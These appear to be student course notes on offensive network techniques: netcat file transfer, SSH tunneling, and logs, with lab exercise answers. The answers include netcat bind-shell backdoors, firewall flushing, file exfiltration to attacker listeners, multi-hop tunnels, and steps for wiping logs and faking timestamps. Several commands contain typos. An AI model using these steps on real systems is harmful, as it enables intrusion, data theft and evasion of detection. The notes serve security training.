





# CTE - Week 5

___

## Classroom Links

___

* [Teams](https://teams.microsoft.com/l/team/19%3a7a166f374eb44c89bb972a20cf5a3d6e%40thread.tacv2/conversations?groupId=b0216bab-7ebb-498b-af22-3d7c8db2d92f&tenantId=37247798-f42c-42fd-8a37-d49c7128d36b)  
* [CLME](https://learn.dcita.edu/)
* [CTE_TTPs_Lab_Manual_CTA_1901](.\Files\CTE_TTPs_Lab_Manual_CTA_1901.pdf)

___

## Lesson - Module 2 — Lesson 6: File Transfer

___

### Transferring Files

Common Name | Acronym | Typical Ports
--- | --- | ---
Secure Copy Protocol/Secure Shell |  SCP/SSH | TCP 22
File Transfer Protocol | FTP | TCP 20, 21
Trivial File Transfer Protocol | TFTP | TCP 69
Hypertext Transfer Protocol / HyperText Transfer Protocol Secure | HTTP/HTTPS | HTTP: TCP 80 / HTTPS: TCP 443
Server Message Block / Common INternet File System | SMB/CIFS | SMB: TCP 445
Network File System | NFS | TCP / UDP 2049, 111

* Secure Copy
  * `scp [ [user@] src host: ] src file [ [user@] dst host: ] dst file`
  * SCP Pullig
    * `user@src_host:src_file dst_file`
  * SCP Pushing
    * `scp src_file user@dst_host:dst_file`
* Windows SMB
  * `net use <drive letter > :< sharename> / user: [domain] \ < username>`

### Netcat

* Networking "Swiss Army knife"
* Can either initiate a TCP/UDP connection or bind to a port and listen for incoming connections
* Can be used for file transfers, banner grabbing, and port scanning
* Syntax varies depending on OS and Netcat version
* Netcat is not identical to ncat
    Common Option | Use
    --- | ---
    -e | \<prog> Inbound execute program, often removed
    -l | Listen for inboun connections
    -p \<port> | Local Port number
    -u | UDP mode
    -v | Verbose mode
    -h | Help

### Basic Netcat Usage

* Open a listening port on your Windows 7 VM
  * Don't forget to check your syntax  
    
* Connect to Windows 7 VM from CentOS  
    

### Using Netcat to Get a Remote Shell

* Use the -e option to execute a program after connection
    
* Ensure the nc version you are using has the —e option.

### Transferring Files With Netcat

* Receiver sets up listener; sender calls forward
  * Destination: `nc -l <dst port> > <filename>`
  * Source: `nc 10.0.2.2 <dst_port < <filename>`
  
* Reverse transfer
  * Sender sets up listener; receiver calls back
  * Source: `nc -1 <src port > < <filename>`
  * Destination: `nc <src_ip> <src_port> <filename>`
    

### Socat

* Socat accepts two bidirectional byte streams and transfers data between them.
* Typical Examples:
  * Opens TCP over IPv4 `TCP4: <host>:<port>`
  * Opens a TCP listener on port, IPv6 only `TCP6-LISTEN:<port>,fork`
    * `fork` option - multiple simulataneous uses
  * Autoselect network protocol based on \<host> `UDP:<host>:<port> -open UDP connection`

### Transferring Files via Terminal

* Sometimes all you have is a console window
  * For example, telnet; shell from exploitation
* Paste can copy text, but what about binaries
  * Need to encode as text, then paste and decode
* Solutions
  * uuencode/uudecode—common on UNIX
  * Interpreters on target—Perl, Python, Bash, GCC
    * For example, perl has uudecode built in

### Packers

* Executable packers are applications that compress and obfuscate an executable
  * Smaller-sized executable
  * Different file hash
* A common packer used by malware us UPX
  * Most antivirus software detects the presence of UPX packing and flags it as possible
* The following example is provided for the upx.exe program to create a UPX-compressed executable
  * `upx.exe -o <Outfile> -<0-9> <Input File>`

### Lesson 6 Summary

* One of an attacker's primary goals upon gaining entry to a targeted network is to establish a foothold and further the scope of the attack
* Tunneling and redirection permit an attacker to form channels of communication that would otherwise be impossible given existing infrastructure and setup
* Network defenders must understand these tools, tactics and procedures to gain a tactical advantage against attackers and prevent loss of critical data

___

## Exercise - Module 2, Lesson 6 – File Transfers

___

### Scenario 1

1. Scan TCP ports 2 through 90 on the target machine. Create scans that will do the following:  
    * Return messages on Standard Error with as much detail as possible  `-v`  
    * Not perform a DNS Inquiry `-n`  
    * Emit a packet without payload  `-z`  
    * Timeout after 1 second  `-w1`  
    * Record the actions taken  `nc -v -n -z -w1 10.10.1.70 2-90`  

    Port | Service | Status
    --- | --- | ---  
    88 | Kerberose | Time Out
    87 | Link | Time Out
    80 | http | Open
    78 | Finger | Time Out
    70 | gopher | Time Out
    68 | Bootpc | Time Out
    67| BootPS  | Time OUt
    65 | tacacs-ds | Time OUt
    53 | Domain | Time Out
    50 | re-mail-ck | Time Out
    49 | tacacs | Time Out
    43 | Whois | Time Out
    42 | NameServer | Time Out
    37 | time | Time Out
    25 | smtp | Time Out
    23 | telnet | Open
    22 | ssh | Open
    21 | ftp | Time Out
    20 | ftp-data | Time Out
    19 | chargen | Time Out
    18| msp | Time Out
    17 | qotd | Time Out
    15| netstat | Time Out
    13| daytime | Time Out
    11 | systat | Time Out
    09 | discard | Time Out
    07 | echo | Time Out

2. If a web port is open, what is the port number?
   * `80`
3. Use netcat on the Kali machine to connect to the target. Once the connection is made, retrieve the target’s banner.
   * `echo "" | nc -v -n -w1 10.10.1.70 2-90`
   * 80 - Server: Apache/2.4.18 (Ubuntu)
   * 22 - SSH-2.0.OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
4. Flush the iptables on the Ubuntu machine, clear any additional chains and ensure all default tables’ policies are set to ACCEPT.
   * `sudo iptables -F`
   * `sudo iptables -P INPUT ACCEPT`
   * `sudo iptables -P FORWARD ACCEPT`
   * `sudo iptables -P OUTPUT ACCEPT`
5. Create two persistent listeners (backdoors) on the Ubuntu machine. Use port 8888 for the first listener and 9999 for the second listener.
   * `nc -l -p 8888 -e /bin/bash`
   * `nc -l -p 9999 -e /bin/bash`
6. Connect to the first Ubuntu listener using Kali on port 8888.
   * `nc 10.101.70 8888`
7. Create a listener on the Kali machine to accept the incoming file transfer on port 6666.
   * on Kali - `nc -l -p 6666 > filein.txt`
8. Create a services.txt file by running the following command:
sudo systemctl list-units --type service --all > / home/intern01/services.txt
9. Transfer the /home/intern01/services.txt file to Kali and document the
command/syntax used.
   * On Ubuntu - `nc 10.10.1.60 6666 < services.txt`
10. Connect to the second Ubuntu listener using Windows 10 on port 9999.
11. Create a listener on the Windows 10 machine to accept the incoming file transfer on port 7777. Transfer the /home/intern01/services.txt file to Windows 10.
    * On Win10 - `nc -l -p 7777 > filein.txt`
    * On Kali vi `nc 10.10.1.70 9999` `nc 10.10.1.20 7777 < services.txt`

### Scenario 2

1. From the Windows 10 machine, use PuTTY to telnet into the Ubuntu machine with username intern and the password password.
   * `intern01:CTEPasswd1976`
2. Find the uuencode/uudecode tool in the Windows Administrator’s “NetworkTools” folder.
    * `c:\users\srogers\Desktop\NetworkTools\uuencode.exe`
3. The uuencode syntax differs slightly between Linux/Unix and Windows; uuencode the socat binary from the Network Tools directory and name the file socat.uu.
    * `uuencode.exe socat_1.7.2.3-1_i3896.deb socat.uu`
4. How big is the uuencoded socat binary in KB? `418268 kb`
5. Open the recently encoded file with Notepad++.
a. Select all the file content by pressing \<CTRL> + A
b. Copy to the clipboard by pressing \<CTRL> + C
6. On the putty telnet prompt execute the following cat > socat
   * `cat > socat` `Copied text`
7. Once the word “end” appears in the PuTTY window, stop the transfer by pressing \<CTRL> + D
8. What is the size in KB of the transferred file? `411639`
9. Is the file size the same as the original executable? `It is larger`
10. What needs to change for the file to be executed successfully on the new host?
    * `Decode on the other side`

### Scenario 3

1. Open a command prompt and navigate to the Transfer directory on the Windows 10 desktop.
2. Use upx.exe to pack fpipe.exe.
   * `upx.exe -9 -o fpipe.pak fpipe.exe`
3. Use upx.exe to pack windump.exe.
   * `upx.exe -9 -o windump.pak windump.exe`
4. Change the file extension from .pak to .exe and delete the original files.
5. Use netcat to move the files from the Attack/Ops machine to the Target.
   * On win10 `nc.exe -l -p 5555 < windump.exe`
   * On kali `nc 10.10.1.20 555 > windump.exe`
6. Verify the file transfer.
   * `ls -lah windump.exe` - 219 kb
7. Cleanup.
8. Tear down communications.

___

## Lesson - Module 2 Lesson 7: Tunneling

___

### Network Engineering Blues

* Sometimes traffic does not play nicely with pipes it needs to go through
  * Privately Between addressed networks
    * Intervening links will not route
    * Somewone wants to block your traffic
  * Protocol is usupported
    * Your ISP does not route IPv6 yet
    * Someone want to spy on your traffic

### Tunneling

* Tunneling is the solution
  * Put traffic you wan to send inside a protolcol that can get to your desired destination
  * VPN example
    * Bob cannot directly access his company's internal network from home
    * Bob  uses a VPN client on his laptop to connect to his company's VPN concentrator, creating a tunnel
    * Using the tunnel, Bob's VPN client encapsulates and encrypts all traffic destined for the company network and sends it to the concentrator

### IPv6 to IPv4 Tunneling

* IPv6 migration: <25% of world ISPs have adopted IPv6
  * Makes it tough to be an early adopter
  * Multiple solutions proposed—ISATAP, Teredo
  * 6t04 Tunneling
* Solution is Simple
  * Put IPv6 packet in an IPv4 packet
  * Methodology is standardized, IPv4 next protocol 41
  * Packet routes over IPv4 to the other endpoint
  * IPv4 framing is stripped at the other end, and IPv6 packet is processed

### Finer Points of Tunneling

* Tunneling can be at any layer of the network stack:
  * Lower levels usually integrated into OS
  * Higher levels typically into application software
* Tunneling can put lower layers into other ones.
  * Ethernet over IP why not? (Why?)
  * As long as you have the software on both ends to process it, you can tunnel any protocol over another

### Secure Shell (SSH)

* SSH is used for encrypted terminal access across a network
  * SSH server (sshd) listens on a bound port 22
  * SSH client initiates a TCP session to the server
* SSH has multiple channels/tunnels
  * Tunnels can be set to listen on a preconfigured port
  * Tunnels forward packets to the SSH peer
  * The receiving end sends packets to a preconfigured destination

### Forward vs. Reverse

* Each channel opens only one listener
* Forward Tunnel
  * SSH client opens the tunnel listener
  * SSH server redirects received data
  * Call forward: Initiate a connection to the remote machine
* Reverse Tunnel
  * SSH server opens the tunnel listener
  * SSH client redirects received data Call back: Expect something else to establish a connection

### Tunnels in Detail

* Tunnel setup:
  * Issue command on client:
    * `ssh <userA>@<Server1> - L<lis_port>:<dst_ip>: <dst_port>`
  * Client connects to server 1 with userA credentials
  * Client/server negotiates a channel for the tunnel
  * Client creates a listening socket on < lis port >
  * Server redirects traffic traveling through tunnel to
    * `<dst ip:dst port>`
* Connection:
  * Connect to the tunnel listener using client software (e.g., ssh, telnet, web browser, netcat)
  * Client negotiates the TCP handshake with the tunnel listener
  * Packet from the client is passed through the tunnel
  * SSH peer negotiates the TCP handshake with the intended target
  * Data are forwarded to the intended destination
  * All subsequent packets flow through tunnels and are redirected

### Tunnel Diagrams


* First line shows SSH connection:
  * Single dash (----) represents a TCP connection
  * \< denotes that the host is listening on a public interface
* Second line represents a TCP connection to the third host via the tunnel:
  * \> denotes that the host is listening on a local loopback interface
  * \==== represents the SSH tunnel

### Operational Concept

* Conceptually, split machines into three types:
  * Ops Machine
    * Machines under you direct physical control
    * Can reconfigure, add software and more at will
  * Redirectors
    * Machines to wicht you have access but not control
    * Standalone tools can be uploaded
  * Target
    * Machine you are trying to access

### SSH Into Remote Machine


* Connect to redirector, setup tunnel with redirector:
  * `ssh administrator@192.168.10.3 -L5555:192.168.108:22`
* Connect to target host through tunnel:
  * `ssh root@127.0.0.1 -p 5555`
  * Network destination changes to local listener
  * Username/password remain the same for the target host

### Multiple Operations Boxes

* By default, forward tunnels listen on localhost (127.0.0.1)
* May want multiple ops boxes to access a tunnel:
  * Usually set up tunnels w/Linux (better SSH tools)
  * Client may be Windows based (RDP, SMB)
* Can configure using ssh syntax:
  * -gL14560:192.168.100.4:22
  * L0.0.0.0:14560:192.168.100.4:22


* Set up a tunneon on CentOS VM:  
  * `ssh root@192.168.10.7 -gL14560:192.168.100.4:22`
* Connect to target from Windows XP VM:
  * mstsc [v: 192.168.1.14:8661
  * Log in using credentials for 192.168.10.3 (IIS Server)

### FTP Into Remote Machine


* Set up tunnel:
  * `ssh root@192.168.10.7 -L3342:192.168.10.8:21`
* Connect to target via tunnel:
  * `ftp 127.0.0e.1 3342`
* Get an FTP connect but cannot get data back. Why not?

### Why Multi-Hop?

* Multiple redirectors:
  * Hide your original location better
* Multiple targets:
  * Ultimate target may be buried within network
  * Multiple hops may be required to circumvent filtering and security devices

### Using Two Hops


* Connection to first redirector and first tunnel:
  * `ssh administrator@192.168.10.4 -L 35261: 192.168.10.7:22`
* Connection to second redirector and second tunnel via tunnel:
  * `ssh root@127.0.0.1 -p 35261 -L 16242: 192.168.1e.6:80`
* Connect to target via tunnels:
  * Point web browser at `http://127.0.0.1:16242`

### Public/Private

* Often, one set of addresses is used for public access, while another is used for private
  * Machines can have multiple network interfaces
  * Network address translation (NAT)
* Remember who is connecting
  * Addressing is done on a hop-by-hop basis
  * If using public addressing to get beyond firewall/NAT, you need private  addressing to redirect to hosts in the network

### Reverse Tunnels

* Why?
  * Port Forwarding
    * May want a remote server to access a service
  * Exloitation
    * Many exploits work by calling back to a machine that you control
  * Evade Filtering Devies
    * some scenarious allow outbound connections only
* Common thread: The remote end initiates the TCP connection

### Reverse Tunnel Syntax

* `—R [<1 address>:port>:<dst ip> :<dst port>`
* SSH server opens a socket listener on \<l_port> on \<l_address>
* Default address for -R is 0.0.0.0
* Client/server negotiates channel for tunnel
* When some remote machine connects to listener, packets are forwarded to SSH client through tunnel
* SSH client opens connection to \<dst_ip> on \<dst_port> and forwards packets

### Basic Port Forwarding


* SSH is already running on your machine
* Set up tunnel:
  * `ssh root@192.168 .10.7 -R8022:127.0.0.1`
* Connect from outsid the network
  * `ssh root@192.168 .10.7 -p 8022`

### Reverse Tunnel Diagram


* Set up tunnel on Win7 physical:
  * `ssh root@192.168.10.5 -R24981:127.0.0.1:6677`
* Set up necat listener on Win7 physical:
  * `nc -L -p 6677`
* Connect from remote host on FTP server:
  * `nc 192.168.10.5 24981`

### Multiple Hops: Reverse Tunnel


### Additional Tunnels

* Suppose we want to add a tunnel after we have already set up our infrastructure
* Closing and reopening = bad OPSEC
* Native ssh command has built-in SSH prompt
* Entering —C in an open SSH window gives you a new prompt that allows you to set up tunnels:
  * `[root@localhost ~]# <~> + <c>`
  * `ssh> - L4444:127.0.0.1:8080`
  * Forwarding port
  * `... <CTRL> + <c>`
  * `[root@localhost ~]#`

### Lesson 7 Summary

* From both a defensive and offensive perspective, SSH tunnels provide users with the assurance that their end-to-end communications are secure in a potentially hostile environment
* Attackers use secure tunneling to hide, obscure and redirect their traffic, subverting the security of existing infrastructure
* Network defenders must be familiar with the use and application of secure tunnels to counter network attacks and to detect and trace the origin of intrusions

___

## Exercise - Module 2, Lesson 7 – Tunneling and Data Exfiltration

___

### Senario 1

1. Draw a diagram of the tunnels that will be created. Indicate the client connection created by the beacon on the diagram and document the command used to set up the netcat listener that will receive the communications.

    

2. Set up the netcat listener.  
  On Win10 - `nc -l -p 6677`  
3. Set up the tunnel infrastructure.  
  On Win10 - `ssh root@10.10.1.40 -L 1111:10.10.1.60:22` - to CentOS  
  On Win10 - `ssh root@127.0.0.1 -p 1111 -L2222:10.10.1.70:22` - to Kali  
  On Win10 - `ssh nimda@127.0.0.1 -p 2222 -R31330:127.0.0.1:31330`
4. Conduct a brief survey of the target in question by investigating the following:  
  a. Important log files at /var/log  
    `cat /var/log/syslog*`  
  b. Recent security events  
    `cat /var/log/ufw*`
  c. Network configurations  
    `ifconfig`
    `/etc/nsswitch.conf`
  d. Listing network connections  
    `netstat -nao | grep LISTENING`
  e. Listing users  
    `awk -F ':' '{print $1}' /etc/passwd`  
  f. Look at schedule jobs  
    `crontab -l`  
  g. Check DNS settings and the host file  
    `cat /etc/hosts`
    `cat /etc/resolv.conf`
    `cat /etc/hosts.deny`  
  h. Look at auto-start services  
    `upstart`
5. Wait two minutes to receive the communications.
6. Document the intercepted communication.
7. Clean up.
8. Tear down the SSH tunnels in the proper order.

### Senario 2

1. Clear the iptables including the extra chains on the FTP server and set all default tables policy to ACCEPT.  
  `iptables --list`  
  `iptables -P INPUT ACCEPT`  
  `iptables -P OUTPUT ACCEPT`  
  `iptables -P FORWARD ACCEPT`  
  `iptables -F`  
2. Diagram the forward tunnels and the reverse tunnel , then document the commands that will be used to create them.
3. Indicate where the client connection on the diagram and create the command syntax for the netcat listener that will be set up to receive the FTP communications.  
  On Win10 `ssh root@10.10.1.40 -L1111:10.10.1.60:22`  
  On Win10 `ssh root@127.0.0.1 -p 1111 -L2222:10.10.10.70:22`- To Kali  
  On Win10 `ssh nimda@127.0.0.1 -p 2222 -L3333:10.10.10.1.71:21` - To Ubuntu  
  On Win 10 `ssh nimda@127.0.0.1 -p 2222 -R54197:127.0.0.1:54197` - Reverse from Ubuntu  
4. Prepare a netcat listener on the attack machine to receive the file sshd_ config from the FTP server on port 54197.  
On Win 10 `nc -lvp 54197 > sshd_config`  
5. Complete the file transfer.
NOTE: Once you are logged into the FTP server, use the quote \<ftp command> parameter command to inform the server which port is being used by your netcat listener for the transmission, Next, use quote
\<ftp command> parameter to retrieve the desired file.  
`ftp open 127.0.0.1 3333`  
`nimda -> <password> -> ls`  
`cd /etc/ssh`  
`quote port 10,10,1,70,211,181`
`get sshd_config`
6. Clean up.  

___

## Lesson - Module 2 Lesson 8: Logs and Redirection

___

### UNIX System Log Files

* Logs can be modified/wiped easily
* Easy to Modify/Wipe Logs
  * `/var/adm` - Solaris
  * `/var/log` - Linux
  * `~/.bash_histor`
* Syslog
  * Configurable logging service
  * Configured via `/etc/rsyslog.conf` - Solaris
  * configured via `/etc/syslog.conf` - Linux
* The syslog servie can be configured to first write to the local system, after logs are written locally, logs are then forwarded to a remote syslog server based on the configuration file

### Sample UNIX Log Entries

* Very Secure FTP log file  

* `/var/log/secure`  
  

### Windows Event Logs  

* Simple actions use countless components that are logged and produce a significant amount of auditable information
* Event logs can be useful in determining cause and effect during an investigation
* Event log timestamps are recorded in GMT
* When the system displays the event logs, the timestamp is adjusted for the computer's time zone
* Implemented since Vista and Server 2008
* Provided new features and enhancements from the previous .evt format
* The use of channels
  * Serviced
  * Direct
* XML Formatted

### Windows .evtx Channels

* Admin
  * Used by IT Professionals
  * Disabled by default
  * Produces high volume of event; not user-friendly
* Operational
  * Used for analyzing and diagnosing a problem or occurrence
  * Example: An event that occurs when a printer is added or removed from a system
* Analytic
  * Events published in high volume
  * Indicate problems that canot be handled by user interventions
* Debug
  * Used by developers to troubleshoot issues with programs

### Policy Assessment Overview

* There are three types of logs:
  * Application
    * Events from local applications
  * Security
    * Events from LSASS.exe and audit policy
  * System
    * Events from operating system
* Examples of event log entries:
  * `System/Application`
    * Error/Warning/Information
  * `Security`
    * Success Audit/Failure Audit

### Windows Event Logs: Vista+

* Microsoft rewrote their event logging in Vista:
  * Now XML-based
  * Allows for centralized logging by default
* Event Collector/Event Subscriber allows events to be sent between hosts as XML

Windows Remote Manager (Winrm) 1.1 and earlier | Default ports: HTTP/Port 80 or HTTPS/Port 443
---|---
Winrm 2.x | Default ports: HTTP/Port 5985 or HTTPS/Port 5985

### Event Log Categories: Vista+

* Forward Log
  * Events forwarded to another system are logged in the forward log
  * Accomplished using event subscriptions
    * Event subscriptions identify what events are collected
    * Winrm listens and receives events  
* Application and Service Logs
  * Logs for the programs running on a system
  * Logs pertaining to Windows services
* Setup Logs
  * Events on computers configured as domain controllers
  * Client machine setup logs

### Application Logs

* Not reliable due to their non-standardization
* Combined with system events, these events can show symptoms of suspected intrusions
* Events relevant to an investigation:
  * Application errors
  * Antivirus or malware detection events
  * Host-based firewall logs
* Webservers
  * `/var/log/httpd/`
  * `%SYSTEMROOT\system32\logfiles\W3SVC#\*.log`
* Security Products
  * `C:\Program Files <product name>`
  * `C:\Documents and Settings\All Users\Application`
  * `C:\Documents and Settings\<user name>\Application Data`
* Other Applications
  * Instand Messengers/Chat programs
  * Windows Scheduler Service

### Pre-Vista vs. Vista+ Log Locations

* In a different location:
  * Pre- Vista folder location: `C:\Windows\System32\config`
  * Post-Vista folder location: `C:\Windows\System32\winevt\Logs`
* Event IDs for security logs have changed:
* Add 4096 to pre-Vista event IDs to obtain Vista+ event ID values

### Dump Log Files

* Created during system or application crashes
* Contains pertinent information about the state of the system at the time of the crash:
  * Memory; Processor Registers; Pointers & Other Info
* Use to diagnose or debug errors
* UNIX: core dump
* Microsoft: minidump or memory.dmp (in %SYSTEMROOT%)

### Security Audit Policies

* Security audit policies can also be viewed using the command line via the auditpol . exe command
* `auditpol.exe /get /category: *`


### Server Log Files

* Web servers store a lot of data in various locations
  * Logs contain information relating to authentication success and failure, IP addresses and more
    * IIS
    * Apache
* Web Proxy servers are used as an intermediary between a web browser and the internet
* Events are logged in local time but this is configurable
  * All server log files should be reviewed

### Apache Web Server Logs

* Access logs — contains information about request coming to the web server

* Error logs — contains information about errors encountered by the server


### Apache Web Server logs location

* Debian/Ubuntu/LinuxMint

Directive/Setting | Config File | Path Value
--- | --- | ---
*SUFFIX | /etc/apache2/envvars | (see configfile for conditional logic)
APACHE_LOG_DIR | /etc/apache2/envvars | exportAPACHE LOG DIR=/var/10g/apache2SSUFFIX
AccessLog | /etc/apache2/sites-available/OOO-default.conf | CustomLog S{APACHE LOG DIR}/access.log combined
ErrorLog | /etc/apache2/apache2.conf | ErrorLogS{APACHE LOG DIR}/error.10g
LogLevel | /etc/apache2/apache2.conf | warn
LogFormat | /etc/apache2/apache2.conf |  %O "%{Referer}i" "%{User-Agent}i"" combinedLogFormat "%h %l %u %t "%r" %O" commonLogFormat refererL ogFormat "%{User-agent}i" agent
CustomLog | /etc/apache2/conf-available/other-vhosts-access-log.conf | CustomLog S{APACHE LOG DIR}/other_vhosts_access.log log.conf vhost combined

___

* Red Hat/Fedora/CentOS

Directive | Config File | Path Value
--- | --- | ---
AccessLog | /etc/httpd/conf/httpd.conf | /var/log/httpd/access_log
ErrorLog | /etc/httpd/conf/httpd.conf | /var/log/httpd/error_log
LogLevel | /etc/httpd/conf/httpd.conf | warn
*LogFormat | /etc/httpd/conf/httpd.conf | LogFormat "%h %l %u %t "%r" %>s %b "%{Referer}i" "%{User-Agent}i""combinedLogFormat "%h %l %u %t "%r" %>s %b" common
**LogFormat | /etc/httpd/conf/httpd.conf | LogFormat "%h %l %u %t "%r" %>s %b "%{Referer}i" "%{User-Agent}i" %l %O" combinedio
*CustomLog | /etc/httpd/conf/httpd.conf | CustomLog "logs/access_log" combined

___

* OpenSUSE  

Directive | Config File | Path Value
--- | --- | ---
AccessLog | /etc/apache2/sysconfig.d/global.conf | /var/log/apache2/access_log
ErrorLog | /etc/apache2/httpd.conf | /var/log/apache2/error_log
LogLevel | /etc/apache2/sysconfig.d/global.conf | warn
*LogFormat |  /etc/apache2/mod_log config.conf | LogFormat "%h 0/01 %u %t "%r"  %b" commonLogFormat "%v %h 0/01 %u %t "%r" %b" vhost_commonLogFormat "%{Referer}i -> %U" refererLogFormat "%{User-agent}i agentLogFormat "%h 0/01 %u %t "%r" %b "%{Referer}i" "%{User-Agent}i"" combinedLogFormat "%v %h 0/01 %u %t "%r" %b "%{Referer}i" "%{User-Agent}i"" vhost combined
**LogFormat | /etc/apache2/mod_log config.conf | LogFormat "%h %l %u %t "%r" %>s %b "%{Referer}i" "%{User-Agent}i" "%l $O" combinedio
***LogFormat | /etc/apache2/mod_log | LogFormat "%t %h %{SSL_PROTOCOL}x%{SSL_CIPHER}x"%r" %b" ssl_commonLogformat "%t %h %{SSL_PROTOCOL}x%{SSL_CIPHER}x "%r" %b "%{Referer}i" "%{User-Agent}i"" ssl_combined

### Windows Webserver (IIS) Logs

* Microsoft IIS logs location:
  * `C:\Windows\system32\LogFiles\W3SVC1`
* WC3 Extended Log File Format


* Microsoft IIS Logging Formats
  * IIS Log File Format


* Microsoft IIS Logging Formats
  * NCSA Common Log File Format
    * `172.21 13.45- Microsoft\fred [08/Apr/2001  "GET
/scripts/iisadmin/ism-dll?http/serv HTTP/I -0" 200 3401`
  * ODBC Logging

### Logon Events

* These events are essential to establish a pattern of logon times for a user
* These events are used to flag a logon at an unusual hour or day
* Failed logon events may be evidence of brute force or password guessing attacks
* Not all accesses result in a logon event (e.g., FTP does not produce a logon event)
* See Student Guide for important event IDs

### Log Cleanig

* Attackers

1. Locate any files that have changed since you threw your first exploit
2. If possible, remove evidence of your mission from the log file
3. Change the timestamp on the log file to the last entry in the file
4. If removing your evidence creates a zero-byte file, change the timestamp to another zero-byte file in the same directory
    * This allows you to blend in if logs are being forwarded
    * If logs are not being forwarded, change the timestamp to match another file in the directory

* Defenders
  * Reviewing all logs, and combining output from different logs, assist with determining if the system has been copromised
* Look for logs that changed since your arrival:
  * Antivirus, Firewall, Dr. Watson (pre-Vista), Problem Reports and Solutions (Vista+), and Application logs
  * Unix
    * Usually easy and straightforward
